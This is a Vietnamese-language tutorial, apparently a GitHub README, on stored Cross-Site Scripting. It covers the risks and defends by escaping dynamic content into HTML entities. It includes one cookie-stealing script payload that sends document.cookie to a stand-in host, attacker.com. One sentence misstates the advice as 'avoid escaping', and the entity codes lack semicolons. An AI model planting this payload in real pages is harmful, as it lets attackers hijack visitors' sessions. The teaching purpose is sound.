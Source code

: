 # Cross-Site Scripting
## 1.Khái Niệm
**(XSS) Cross-Site Scripting**: Lỗ hổng XSS cho phép người dùng độc hại thực thi các đoạn JavaScript tùy ý khi người dùng khác truy cập trang web của bạn.
### Ví dụ:
*"Một trang web thương mại điện tử cho phép người dùng gửi nhận xét về các sản phẩm. Trang web này cho phép người dùng nhập một đánh giá và hiển thị nó trên trang sản phẩm tương ứng."*
#
Một kẻ tấn công muốn thực hiện một cuộc tấn công XSS để đánh cắp thông tin đăng nhập của người dùng khi họ truy cập vào trang sản phẩm.
Kẻ tấn công thêm một bình luận chứa mã JavaScript độc hại vào trường đánh giá.
```javascript
<script>
  // Gửi cookie của người dùng đến kẻ tấn công
  var img = new Image();
  img.src = 'http://attacker.com/steal?cookie=' + document.cookie;
</script>
```
>Khi một người dùng khác truy cập vào trang sản phẩm và xem bình luận này, mã JavaScript độc hại sẽ được thực thi trên trình duyệt của họ. Điều này sẽ gửi cookie của người dùng đến máy chủ của kẻ tấn công, cho phép họ đánh cắp thông tin đăng nhập của người dùng.
## 2. Nguy Cơ
***Một cuộc tấn công XSS nghiêm túc có thể gây ra những hậu quả nào?***
1. Lây lan các loại mã độc trên các trang mạng xã hội phổ biến như Facebook, Twitter và YouTube.
2. Đánh cắp phiên đăng nhập (session hijacking): Mã JavaScript độc hại có thể gửi ID phiên đến một máy chủ từ xa dưới sự kiểm soát của hacker, cho phép hacker giả mạo người dùng bằng cách chiếm quyền điều khiển phiên đang hoạt động.
3. Đánh cắp danh tính: Thông qua việc người dùng nhập thông tin nhạy cảm như số thẻ tín dụng vào một trang web đã bị chiếm đoạt, các chi tiết này có thể bị đánh cắp bằng JavaScript độc hại.
4. Tấn công từ chối dịch vụ (DoS) và phá hoại trang web: Tấn công DoS để làm gián đoạn hoạt động và gây thiệt hại cho trang web.
5. Đánh cắp dữ liệu nhạy cảm như mật khẩu, đe dọa tài khoản người dùng và có thể dẫn đến các vụ vi phạm bảo mật khác.
6. Tiến hành gian lận tài chính trên các trang web ngân hàng bằng cách khai thác lỗ hổng XSS để thao túng các giao dịch hoặc trích xuất thông tin ngân hàng nhạy cảm.

## 3. Biện pháp bảo vệ
*"Để bảo vệ khỏi các cuộc tấn công XSS được lưu trữ, hãy đảm bảo mọi nội dung động đến từ kho lưu trữ dữ liệu đều không thể được sử dụng để chèn JavaScript vào một trang."*
***Đây là yêu cầu cốt lõi***
### Escape Dynamic Content
Các cuộc tấn công XSS sử dụng cách xử lý không đúng đối với nội dung động **(Dynamic Content)** được lấy từ một cơ sở dữ liệu backend. Kẻ tấn công lạm dụng một trường có thể chỉnh sửa bằng cách chèn mã JavaScript, sau đó mã này được đánh giá trong trình duyệt khi một người dùng khác truy cập trang đó.  

Vì vậy, hiếm khi bạn muốn người dùng của mình tạo ra đoạn mã HTML chưa được xử lý **(raw HTML)**. Thay vào đó, bạn nên *tránh thoát tất cả nội dung động* được lấy từ cơ sở dữ liệu, để trình duyệt biết rằng nó cần được xử lý như là nội dung của các thẻ HTML, không phải là HTML chưa xử lý.  

Việc thoát nội dung động thường bao gồm việc thay thế các ký tự quan trọng bằng mã HTML entities:

|Character|	Encoding|  
|:--------|:-------|
|<        |	&#60   |  
|>        |	&#62   |  
|&        |	&#38   |  
|"        |	&#34   |  
|'        |	&#39   |  

